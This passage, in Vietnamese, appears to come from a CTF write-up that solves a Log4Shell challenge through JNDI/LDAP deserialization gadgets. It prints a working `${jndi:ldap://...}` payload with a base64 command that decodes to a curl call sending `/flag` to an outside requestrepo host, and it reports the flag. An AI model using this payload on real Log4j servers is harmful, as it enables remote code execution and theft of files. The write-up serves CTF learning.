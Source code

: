 Đầu tiên, mình thử với payload `URLDNS` và `CommonsCollectionsK1/Dnslog` thì thấy có DNS tới domain, nhưng khi chạy với `CommonsCollectionsK2` để RCE thì không lại hoạt động.
Mình quyết định sửa lại payload của `CommonsCollectionsK1` từ `ldap://[IP_VPS]:1389/Deserialization/CommonsCollectionsK1/Dnslog/` thành `ldap://[IP_VPS]:1389/Deserialization/CommonsCollectionsK1/Command/Base64/Y3VybCAtZCBAL2ZsYWcgaHR0cDovL3N1cWw0bWF0LnJlcXVlc3RyZXBvLmNvbQ==`

Command chạy tool:
![](https://i.imgur.com/XXrWUVy.png)
:::info
Mọi người thay IP VPS vào chỗ bị bôi bỏ
:::

Payload send để lấy flag
```
${jndi:ldap://165.22.109.11:1389/Deserialization/CommonsCollectionsK1/Command/Base64/Y3VybCAtZCBAL2ZsYWcgaHR0cDovL3N1cWw0bWF0LnJlcXVlc3RyZXBvLmNvbQ==}
```

Trong đó: `3VybCAtZCBAL2ZsYWcgaHR0cDovL3N1cWw0bWF0LnJlcXVlc3RyZXBvLmNvbQ==` là `curl -d @/flag http://suql4mat.requestrepo.com`

![](https://i.imgur.com/s9eRtsA.png)

Trong request tới có chứa 1 đường link chứa 1 phần thưởng giá trị 200k (card Viettel) cho ai giải được bài này đầu tiên. http://note.livedie.cc/makekmagreatagain

Ở đây mọi người có thể sử dụng CC5 kéo qua tool này rồi thực hiện tương tự như trên nhé, theo như lời tác giả nói:
![](https://i.imgur.com/UFfCXx1.png)

Flag: `KMACTF{log4shell_go_bruh_bruh!!!}`

## Lời kết.
Cảm ơn các tác giả của những thử thách trên đã tạo những thử thách hay cho các bạn đam mê CTF có cơ hội luyện tập. Đặc biệt cảm ơn anh [Jang](https://testbnull.medium.com/) đã có phần thưởng 200k để tạo động lực, tăng phần hấp dẫn cho thử thách và mình đã xin luôn 200k đấy từ tác giả ٩(͡๏̮͡๏)۶
![](https://i.imgur.com/pW096eY.png)
